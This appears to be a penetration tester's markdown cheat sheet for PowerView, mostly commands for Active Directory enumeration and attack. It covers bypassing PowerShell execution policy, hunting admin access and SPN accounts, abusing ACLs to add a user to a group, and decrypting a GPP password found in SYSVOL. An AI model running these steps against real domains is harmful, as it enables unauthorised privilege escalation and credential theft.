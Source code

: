 # Using PowerView
`PowerView.ps1` is a powerful PowerShell script included in the PowerSploit framework, designed for Active Directory enumeration and exploitation. Below is an overview of commonly used commands and examples for `PowerView.ps1`.

This [table](https://github.com/MGamalCYSEC/Active-Directory-Enumeration-and-Attacks/blob/main/AD%20Enumeration/Manual%20Enumeration/PowerView_Table.md) below some of the most useful functions PowerView offers

**Importing PowerView**
```powershell
powershell -ep bypass
Import-Module .\PowerView.ps1
```
## Enumerating Domain Information
**Get-NetDomain**
```powershell
Get-NetDomain
```
**Get-NetForest**
```powershell
Get-NetForest
```
**Get-NetDomainController**
```powershell
Get-NetDomainController
```
**Get-NetUser**
List **all users** in the domain:
```powershell
Get-NetUser
```
- **To filter by a specific user:**
```powershell
Get-NetUser | Where-Object { $_.SamAccountName -eq "gamal" }
```
- **Querying users using select statement**
``` powershell
Get-NetUser | select cn
```
- **Querying users displaying pwdlastset and lastlogon**
``` powershell
Get-NetUser | select cn,pwdlastset,lastlogon
```
- Example 
``` powershell
Get-DomainUser -Identity gamal -Domain domain.local | Select-Object -Property name,samaccountname,description,memberof,whencreated,pwdlastset,lastlogontimestamp,accountexpires,admincount,userprincipalname,serviceprincipalname,useraccountcontrol
```
**Get-NetGroup**
**Retrieve all groups in the domain**
```powershell
Get-NetGroup
```
- **Find users in a specific group**
```powershell
Get-NetGroup | Where-Object { $_.Name -eq "Development Department" }
```
- **Enumerate a specific group member**
``` powershell
Get-NetGroup "Management Department" | select member
```
- **Recursive Group Membership**
``` powershell
Get-DomainGroupMember -Identity "Domain Admins" -Recurse
```
- **enumerate domain trust mappings**
``` powershell
Get-DomainTrustMapping
```
- We can use the [Test-AdminAccess](https://powersploit.readthedocs.io/en/latest/Recon/Test-AdminAccess/) function to test for local admin access on either the current machine or a remote one.
- test if a user has administrative access to a local or remote host
``` powershell
Test-AdminAccess -ComputerName Comp-EA-MS01
```
## Enumerating Computers
**List all computers in the domain:**
```powershell
Get-NetComputer
```
**Displaying OS and hostname**
``` powershell
Get-NetComputer | select dnshostname,operatingsystem,operatingsystemversion
```
**Filter by operating system:**
```powershell
Get-NetComputer -OperatingSystem "Windows Server*"
```
**Find-LocalAdminAccess**
- Scans the network in an attempt to determine if our current user has **administrative permissions** on any computers in the domain.:
```powershell
Find-LocalAdminAccess
```
## Enumeration Through Service Principal Names
- **Listing the SPN accounts in the domain**
``` powershell
Get-NetUser -SPN | select samaccountname,serviceprincipalname
```
- To enumerate SPNs in the domain, we have multiple options. In this case, we'll use setspn.exe, which is installed on Windows by default. We'll use -L to run against both servers and clients in the domain. 
- **Finding Users With SPN Set**
``` powershell
Get-DomainUser -SPN -Properties samaccountname,ServicePrincipalName
```

**Listing SPN linked to a certain user account** 
``` powershell
setspn -L iis_service
```
![image](https://github.com/user-attachments/assets/368e7933-3e93-441f-83aa-7d03c8b7dba0)
## Enumerating **Object Permissions**
Here's a list of the most interesting
**GenericAll**: Full permissions on object
**GenericWrite**: Edit certain attributes on the object
**WriteOwner**: Change ownership of the object
**WriteDACL**: Edit ACE's applied to object
**AllExtendedRights**: Change password, reset password, etc.
**ForceChangePassword**: Password change for object
**Self (Self-Membership)**: Add ourselves to for example a group
The [Microsoft documentation](https://learn.microsoft.com/en-us/windows/win32/secauthz/access-rights-and-access-masks) lists other permissions and describes each in more detail.
#### Enumerate ACEs with PowerView
``` powershell
Get-ObjectAcl -Identity stephanie
```
we are primarily interested in those **highlighted**
![Pasted image 20241224120822](https://github.com/user-attachments/assets/6560a072-a667-4657-ba20-fd4545f3eba2)

``` powershell
Get-ObjectAcl -Identity UserName | select ObjectSID,ActiveDirectoryRights,SecurityIdentifier
```
The output lists two [_Security Identifiers_](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-identifiers) (SID), unique values that represent an object in AD.
#### Converting the ObjectISD into name
``` powershell
Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-1104
```
#### Enumerate all objects the domain
generate clean and manageable output
``` powershell
Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights
```
Converting all SIDs that have GenericAll permission on the Management Group
``` powershell
"SID01","SID02","SID03","SID04" | Convert-SidToName
```
Using "net.exe" to add ourselves to domain group if you got ACL permisson
``` powershell
net group "Management Department" stephanie /add /domain
```
## Domain Share Query List shared folders across the network:
``` powershell
Find-DomainShare
```
Or we can use
```powershell
Invoke-ShareFinder
```

![Pasted image 20241224143305](https://github.com/user-attachments/assets/ed627a2b-3b84-4077-b473-e9b5a3b0d783)

 [**SYSVOL**](https://social.technet.microsoft.com/wiki/contents/articles/24160.active-directory-back-to-basics-sysvol.aspx), as it may include files and folders that reside on the domain controller itself.
 ``` powershell
 ls \\dc1.corp.com\sysvol\corp.com\
```
- Investigate every folder
``` powershell
ls \\dc1.corp.com\sysvol\corp.com\Policies\
```
![Pasted image 20241224143757](https://github.com/user-attachments/assets/54a58560-494d-46c8-9ad3-843e0ae00bd4)

Checking contents of old-policy-backup.xml file
``` powershell
cat \\dc1.corp.com\sysvol\corp.com\Policies\oldpolicy\old-policy-backup.xml
```
![Pasted image 20241224144802](https://github.com/user-attachments/assets/24c1ee97-4bbc-4ad6-98b9-9490a1bf1b68)

XML file describes an old policy (helpful for learning more about the current policies) and an encrypted password for the local built-in Administrator account. The encrypted password could be extremely valuable for us.
system administrators often changed local workstation passwords through [_Group Policy Preferences_](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/dn581922(v=ws.11)) (GPP).
However, even though GPP-stored passwords are encrypted with AES-256, the private key for the encryption has been posted on [_MSDN_](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN#endNote2). We can use this key to decrypt these encrypted passwords. In this case, we'll use the [**gpp-decrypt**](https://www.kali.org/tools/gpp-decrypt/) ruby script in Kali Linux that decrypts a given GPP encrypted string:
``` bash
gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
```
## **Invoke-FileFinder**

Search for specific files across shared folders:

```powershell
Invoke-FileFinder -Include "passwords*.txt"
```
## **Get-NetGPO**

Retrieve all GPOs in the domain:

```powershell
Get-NetGPO
```

## **Get-NetGPOGroup**

Find GPOs linked to specific groups:

```powershell
Get-NetGPOGroup
```
## **Get-NetSession**

List active sessions on domain computers:

```powershell
Get-NetSession
```

## **Get-NetLoggedon**

Find users currently logged on to domain computers:

```powershell
Get-NetLoggedon
```


